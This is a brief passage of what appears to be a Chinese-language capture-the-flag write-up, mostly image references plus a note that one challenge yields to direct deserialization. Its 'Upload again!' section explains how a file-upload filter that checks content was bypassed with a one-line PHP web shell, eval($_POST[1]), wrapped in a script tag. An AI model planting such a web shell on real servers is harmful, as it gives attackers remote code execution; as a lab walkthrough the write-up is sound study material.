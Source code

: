 ![image-20231210143001188](images/32.png)

直接反序列化就行

## Upload again!

直接上传一个带php代码的jpg，他说还是php，发现会检测文件内容

加GIF89a也不行，然后发现会检测php标签，用script绕过

```
<script language="php">
eval($_POST[1]);</script>
```

![image-20231210143429070](images/33.png)
